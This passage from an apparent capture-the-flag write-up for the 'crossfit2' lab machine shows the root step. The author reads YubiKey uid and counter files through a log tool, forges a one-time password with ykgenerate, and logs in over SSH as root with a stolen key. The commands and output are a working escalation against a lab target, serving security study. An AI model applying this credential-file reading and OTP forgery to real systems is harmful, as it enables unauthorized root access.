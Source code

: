 ```php
crossfit2$ log /var/db/yubikey/root.uid

* LogReader v0.1

[*] Log size: 13

a4ce1128bde4
```

```php
crossfit2$ log /var/db/yubikey/root.ctr

* LogReader v0.1

[*] Log size: 6

985089
```

Installing yubikey on our local machine and following the [documentation](https://developers.yubico.com/yubico-c/Manuals/ykgenerate.1.html) we can generate our own key. The counter is too long according to the documentation, but only using the last 2 bytes works just fine to generate the OTP.

```php
$ ykgenerate 6bf9a26475388ce998988b67eaa2ea87 a4ce1128bde4 5089 c0a8 00 10
dgvrelfegbnkthnfvenbejhiredtlhhf
```

Using the ssh key in combination with the OTP, we can now finally log into the machine as the root user and add the root flag to our collection.

```php
$ ssh -i root root@crossfit.htb
root@crossfit.htb's password:
OpenBSD 6.8 (GENERIC.MP) #4: Mon Jan 11 10:35:56 MST 2021

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

crossfit2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
crossfit2# wc -c /root/root.txt
      33 /root/root.txt
```
